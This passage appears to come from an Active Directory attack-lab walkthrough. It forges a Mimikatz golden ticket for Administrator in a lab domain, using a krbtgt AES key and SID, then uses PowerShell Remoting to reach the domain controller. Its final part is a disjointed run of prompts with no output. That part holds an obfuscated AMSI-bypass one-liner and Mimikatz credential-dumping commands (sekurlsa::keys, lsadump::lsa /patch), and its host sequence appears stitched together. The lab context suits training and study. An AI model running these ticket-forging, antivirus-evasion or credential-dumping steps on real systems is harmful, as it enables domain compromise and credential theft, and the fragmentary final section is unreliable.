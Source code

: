 **Using Invoke-Mimi.ps1 and PowerShell Remoting**

We can also use Invoke-Mimi from a normal PowerShell session.

```
PS C:\AD\Tools> Import-Module C:\AD\Tools\Invoke-Mimi.ps1

PS C:\AD\Tools> Invoke-Mimi -Command '"kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'

[SNIP]

mimikatz(powershell) # kerberos::golden /User:Administrator /domain:us.techcorp.local /sid:S-1-5-21-210670787-2521448726-163245708 /aes256:5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 /startoffset:0 /endin:600 /renewmax:10080 /ptt

User      : Administrator
Domain    : us.techcorp.local (US)
SID       : S-1-5-21-210670787-2521448726-163245708
User Id   : 500
Groups Id : *513 512 520 518 519
ServiceKey: 5e3d2096abb01469a3b0350962b0c65cedbbc611c5eac6f3ef6fc1ffa58cacd5 - aes256_hmac
Lifetime  : 4/25/2025 7:38:16 AM ; 4/25/2025 5:38:16 PM ; 5/2/2025 7:38:16 AM
-> Ticket : ** Pass The Ticket **

[SNIP]

Golden ticket for 'Administrator @ us.techcorp.local' successfully submitted for current session
```

Access the DC using PowerShell Remoting.

```
PS C:\AD\Tools> klist

[SNIP]

Cached Tickets: (1)

#0>     Client: Administrator @ us.techcorp.local
        Server: krbtgt/us.techcorp.local @ us.techcorp.local
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e00000 -> forwardable renewable initial pre_authent
        Start Time: 4/25/2025 7:38:16 (local)
        End Time:   4/25/2025 17:38:16 (local)
        Renew Time: 5/2/2025 7:38:16 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
        
PS C:\AD\Tools> Enter-PSSession -ComputerName us-dc

[us-dc]: PS C:\Users\Administrator\Documents> whoami

us\administrator 👤

[us-dc]: PS C:\Users\Administrator\Documents> hostname

US-DC 🖥️

[us-dc]: PS C:\Users\Administrator\Documents>exit
```


[us-mailmgmt]: PS C:\Users\Administrator\Documents>
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:username
[us-mailmgmt]: PS C:\Users\Administrator\Documents> $env:computername
[us-mailmgmt]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-mailmgmt]: PS C:\Users\Administrator\Documents> exit
[us-mailmgmt]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"sekurlsa::keys"'
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> S`eT-It`em ( 'V'+'aR' + 'IA' + (("{1}{0}"-f'1','blE:')+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),(("{0}{1}" -f '.M','an')+'age'+'men'+'t.'),('u'+'to'+("{0}{2}{1}" -f 'ma','.','tion')),'s',(("{1}{0}"-f 't','Sys')+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+("{0}{1}" -f 'ni','tF')+("{1}{0}"-f 'ile','a')) ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+("{1}{0}" -f'ubl','P')+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> exit
[us-dc.us.techcorp.local]: PS C:\Users\Administrator\Documents> Invoke-Mimi -Command '"lsadump::lsa /patch"'